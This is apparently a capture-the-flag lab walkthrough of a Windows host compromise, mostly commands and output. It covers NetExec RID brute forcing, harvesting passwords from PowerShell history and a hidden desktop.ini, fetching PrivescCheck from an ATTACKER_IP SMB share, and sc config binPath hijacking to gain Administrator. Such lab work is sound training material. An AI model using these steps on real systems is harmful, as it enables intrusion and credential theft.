








Following a successful social engineering engagement, I obtained user-level credentials for a corporate workstation. The goal is to leverage this initial access to perform reconnaissance on the internal Windows host, escalate privileges, and capture the root flag from the administrator's directory.
tyler.ramsey:P@ssw0rd!
I started with a comprehensive port scan to identify available services:
$ nmap -p- -T4 -sC -sV -Pn 10.1.140.139 -oN nmap_scan-p- scans all 65535 ports-T4 sets aggressive timing for faster scans-sC runs default NSE scripts for service enumeration-sV probes for service versions-Pn skips host discovery (assumes host is up)-oN saves output in normal formatStarting Nmap 7.95 ( https://nmap.org ) at 2026-01-05 06:04 EST
Nmap scan report for 10.1.140.139
Host is up (0.13s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
135/tcp open msrpc Microsoft Windows RPC
445/tcp open microsoft-ds?
3389/tcp open ms-wbt-server
| rdp-ntlm-info:
| Target_Name: EC2AMAZ-M1LFCNO
| NetBIOS_Domain_Name: EC2AMAZ-M1LFCNO
| NetBIOS_Computer_Name: EC2AMAZ-M1LFCNO
| DNS_Domain_Name: EC2AMAZ-M1LFCNO
| DNS_Computer_Name: EC2AMAZ-M1LFCNO
| Product_Version: 10.0.26100
|_ System_Time: 2026-01-05T11:14:45+00:00
| ssl-cert: Subject: commonName=EC2AMAZ-M1LFCNO
| Not valid before: 2025-09-29T10:51:47
|_Not valid after: 2026-03-31T10:51:47
49669/tcp open msrpc Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled but not requiredKey findings:
I used NetExec to validate the provided credentials and enumerate accessible shares:

$ nxc smb 10.1.140.139 -u tyler.ramsey -p 'P@ssw0rd!' --sharesSMB 10.1.140.139 445 EC2AMAZ-M1LFCNO [*] Windows 11 / Server 2025 Build 26100 x64 (name:EC2AMAZ-M1LFCNO) (domain:EC2AMAZ-M1LFCNO) (signing:False) (SMBv1:None)
SMB 10.1.140.139 445 EC2AMAZ-M1LFCNO [+] EC2AMAZ-M1LFCNO\tyler.ramsey:P@ssw0rd!
SMB 10.1.140.139 445 EC2AMAZ-M1LFCNO [*] Enumerated shares
SMB 10.1.140.139 445 EC2AMAZ-M1LFCNO Share Permissions Remark
SMB 10.1.140.139 445 EC2AMAZ-M1LFCNO ----- ----------- ------
SMB 10.1.140.139 445 EC2AMAZ-M1LFCNO ADMIN$ Remote Admin
SMB 10.1.140.139 445 EC2AMAZ-M1LFCNO C$ Default share
SMB 10.1.140.139 445 EC2AMAZ-M1LFCNO IPC$ READ Remote IPCThe credentials are valid, but I only have read access to IPC$ (no access to administrative shares).
RID (Relative Identifier) brute forcing enumerates user and group accounts by querying sequential RID values via SMB. It works because Windows assigns predictable RIDs to accounts (e.g., Administrator is always RID 500, Guest is 501, and custom accounts start at 1000).
$ nxc smb 10.1.140.139 -u tyler.ramsey -p 'P@ssw0rd!' --rid-bruteSMB 10.1.140.139 445 EC2AMAZ-M1LFCNO 500: EC2AMAZ-M1LFCNO\Administrator (SidTypeUser)
SMB 10.1.140.139 445 EC2AMAZ-M1LFCNO 501: EC2AMAZ-M1LFCNO\Guest (SidTypeUser)
SMB 10.1.140.139 445 EC2AMAZ-M1LFCNO 503: EC2AMAZ-M1LFCNO\DefaultAccount (SidTypeUser)
SMB 10.1.140.139 445 EC2AMAZ-M1LFCNO 504: EC2AMAZ-M1LFCNO\WDAGUtilityAccount (SidTypeUser)
SMB 10.1.140.139 445 EC2AMAZ-M1LFCNO 513: EC2AMAZ-M1LFCNO\None (SidTypeGroup)
SMB 10.1.140.139 445 EC2AMAZ-M1LFCNO 1000: EC2AMAZ-M1LFCNO\tyler.ramsey (SidTypeUser)
SMB 10.1.140.139 445 EC2AMAZ-M1LFCNO 1002: EC2AMAZ-M1LFCNO\alice.wonderland (SidTypeUser)I discovered another user account: alice.wonderland - this could be useful later.
NetExec can automatically generate a hosts file entry for the target:
$ nxc smb 10.1.140.139 -u tyler.ramsey -p 'P@ssw0rd!' --generate-hosts-file host_file
$ cat host_file
10.1.140.139 EC2AMAZ-M1LFCNO.EC2AMAZ-M1LFCNO EC2AMAZ-M1LFCNOWith port 3389 open, I connected via RDP using the provided credentials:
$ xfreerdp /u:tyler.ramsey /p:'P@ssw0rd!' /v:10.1.140.139
This machine has two viable privilege escalation paths. I will document both.
PowerShell stores command history in a file called ConsoleHost_history.txt. This file often contains sensitive commands including passwords passed as arguments. It is a common target during post-exploitation because administrators frequently run commands like net user with plaintext passwords.
After connecting via RDP, I checked the PowerShell command history:
PS C:\> (Get-PSReadlineOption).HistorySavePath
C:\Users\tyler.ramsey\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
PS C:\> type C:\Users\tyler.ramsey\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
net user administrator "ebz0yxy3txh9BDE*yeh"ebz0yxy3txh9BDE*yeh
I verified the credentials work using NetExec:
$ nxc smb 10.1.140.139 -u administrator -p 'ebz0yxy3txh9BDE*yeh'
I used wmiexec2 to get an interactive shell as Administrator:
wmiexec2 is an improved version of Impacket's wmiexec that provides a semi-interactive shell over WMI (Windows Management Instrumentation). It is useful when direct SMB execution (psexec/smbexec) is blocked or unavailable.
Installation:
$ git clone https://github.com/ice-wzl/wmiexec2
$ cd wmiexec2
$ python3 -m venv venv
$ source venv/bin/activate
$ pip install -r requirements.txt
$ pip install setuptoolsGetting the root flag:
$ ./wmiexec2.py EC2AMAZ-M1LFCNO/administrator@10.1.140.139
Password: [ebz0yxy3txh9BDE*yeh]
[*] SMBv3.0 dialect used
[*] Launching wmiexec2
[*] Press help for extra shell commands
C:\> cd C:\Users\Administrator\Desktop
C:\Users\Administrator\Desktop> dir
Volume in drive C is Windows
Volume Serial Number is 7EC2-1A39
Directory of C:\Users\Administrator\Desktop
10/14/2025 03:20 PM <DIR> .
10/14/2025 10:57 PM <DIR> ..
11/14/2024 01:03 AM 470 EC2 Feedback.url
11/14/2024 01:03 AM 501 EC2 Microsoft Windows Guide.url
09/30/2025 05:40 PM 2,351 Microsoft Edge.lnk
10/14/2025 03:20 PM 32 root.txt
4 File(s) 3,354 bytes
2 Dir(s) 6,580,862,976 bytes free
C:\Users\Administrator\Desktop> type root.txt
38355....This path involves finding credentials for another user and exploiting misconfigured service permissions.
During manual enumeration, I discovered a C:\Management directory. Using the -Force flag to show hidden files:
PS C:\Management> dir -Force
Directory: C:\Management
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 9/30/2025 6:18 PM 2030 Board Meeting Minutes - 2025-09-10.pdf
-a---- 9/30/2025 6:18 PM 1940 Customer Feedback Summary - 2025 Q3.pdf
-a-hs- 9/30/2025 5:50 PM 71 desktop.ini
-a---- 9/30/2025 6:18 PM 2044 Executive Summary - Q3 2025.pdf
...The a-hs- flags indicate: a = archive, h = hidden, s = system. Hidden and system files are not shown by default, which is why -Force is needed.
The hidden desktop.ini file contains credentials:
PS C:\Management> type .\desktop.ini
[.ShellClassInfo]
InfoTip=CREDS: alice.wonderland:2wsxzaq1@WSXZAQ!alice.wonderland:2wsxzaq1@WSXZAQ!
I used these credentials to establish a new RDP session as alice.wonderland.
After finding that alice.wonderland has no special privileges or share access, I used PrivescCheck for automated enumeration.
PrivescCheck is a PowerShell script that enumerates common Windows privilege escalation vectors including service misconfigurations, scheduled tasks, registry permissions, unquoted service paths, and more. It is similar to winPEAS but written entirely in PowerShell.
Setting up file transfer via SMB:
$ impacket-smbserver sharename . -smb2support -username panos -password panos123On the target, connect to the share and copy PrivescCheck:
PS C:\> net use \\ATTACKER_IP\sharename /user:panos panos123
PS C:\> copy \\ATTACKER_IP\sharename\PrivescCheck.ps1 C:\Users\alice.wonderland\
Running the scan:
PS C:\> powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,HTML"The results showed a high-severity finding in the Services category:

Reviewing the HTML report revealed a service binary path manipulation vulnerability:

When a low-privileged user has permissions to modify a service's configuration (specifically the binary path via SERVICE_CHANGE_CONFIG), they can change it to execute arbitrary commands. When the service starts (often as SYSTEM), the attacker's command runs with elevated privileges.
I analyzed the service permissions using a custom script that decodes Windows SDDL (Security Descriptor Definition Language):

The analysis revealed that the alice.wonderland user can change the service configuration for SysMgmtAgent.
I modified the service binary path to add tyler.ramsey to the local Administrators group:
C:\Users\alice.wonderland> sc config SysMgmtAgent binPath= "cmd.exe /c net localgroup Administrators /add tyler.ramsey"
[SC] ChangeServiceConfig SUCCESS
C:\Users\alice.wonderland> sc start SysMgmtAgentbinPath= is required by the sc command syntax.
Verifying the privilege escalation:
C:\Users\alice.wonderland> net localgroup Administrators
Alias name Administrators
Comment Administrators have complete and unrestricted access to the computer/domain
Members
-------------------------------------------------------------------------------
Administrator
tyler.ramsey
The command completed successfully.With tyler.ramsey now in the Administrators group, I logged out and back in (or opened an elevated PowerShell session) to retrieve the flag:

PS C:\> type C:\Users\Administrator\Desktop\root.txt
38355....| Flag | Value |
|---|---|
| Root | 38355.... |
tyler.ramsey (starting creds: P@ssw0rd!)
|
v
SMB Validation --> RDP Access
|
+---> PATH 1: PowerShell History --> Admin Password --> wmiexec2 --> ROOT
|
+---> PATH 2: desktop.ini --> alice.wonderland creds
|
v
PrivescCheck --> SysMgmtAgent Service
|
v
sc config binPath --> Service Start --> ROOTSet-PSReadLineOption -HistorySaveStyle SaveNothingGet-Credential or secure vaultsaccesschk.exe or PrivescCheckdir -Force or Get-ChildItem -HiddenThis machine demonstrated two common Windows privilege escalation paths:
Walkthrough by Zerotrace | HackSmarter Labs